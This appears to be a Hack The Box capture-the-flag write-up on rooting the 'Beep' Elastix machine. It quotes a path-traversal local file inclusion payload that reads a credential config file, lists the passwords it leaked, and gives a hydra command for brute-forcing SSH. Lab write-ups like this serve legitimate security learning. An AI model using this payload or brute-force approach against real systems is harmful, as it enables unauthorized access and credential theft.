 ```yaml
---
title: 'HTB: Beep'
date: '2025-04-26'
excerpt: ''
readingTime: 1
tags: ['HTB', 'Writeup', 'HTB', 'Writeup', 'Easy', 'Linux', 'Web', 'Pwn']
author: 'pir4cy'
coverImage: '/images/htb/covers/beep-cover.png'
---
```


# Beep

## Info  
  * IP: 10.10.10.7
  * OS: Linux
  * Difficulty: Easy

## System Enumeration

### NMAP

![Beep Nmap](/images/htb/machines/Beep/nmap.png "NMAP")

### Web Page

![Beep WebPage](/images/htb/machines/Beep/webpage.png "Web Page")

## Exploitation

Since our webpage is an Elastix login, we should simply check if an exploit for elastix exists.  
Using `searchsploit elastix` we find:

![SearchSploit](/images/htb/machines/Beep/searchsploit.png "Searchsploit Output")

Trying out the local file inclusion vulnerability

![Exploit Documentation](/images/htb/machines/Beep/exploitcode.png "LFI graph.php")

`LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`  

After appending this address to the web portal `10.10.10.7` we can see the `amportal.conf` file which consists of important user data.  
Simply viewing the source code, we see the data in a readable format

![Exploit Page Source Code](/images/htb/machines/Beep/exploitpage.png "Source Code")

So we make 2 lists for possible users and passwords

#### Users.txt(users on my local machine)
  ```
  root
  mysql
  cyrus
  asterisk
  spamfilter
  fanish
  ```
#### password.txt(pws on my local machine)
  ```
  asterisk
  amp109
  jEhdIekWmdjE
  passw0rd
  ```

### Hydra
After creating the lists of users and passwords we simply run Hydra to check possible ssh combinations.  
Using the command:  
`hydra -L users -P pws ssh://10.10.10.7`

![Hydra](/images/htb/machines/Beep/hydra.png "Hydra")

### Root Owned

Now we simply ssh, with the password that we got as root and we're in

![Rooted](/images/htb/machines/Beep/owned.png "Pwnage")

Simply traverse to the `/root` directory for `root.txt` and to `home/fanis` for `user.txt`


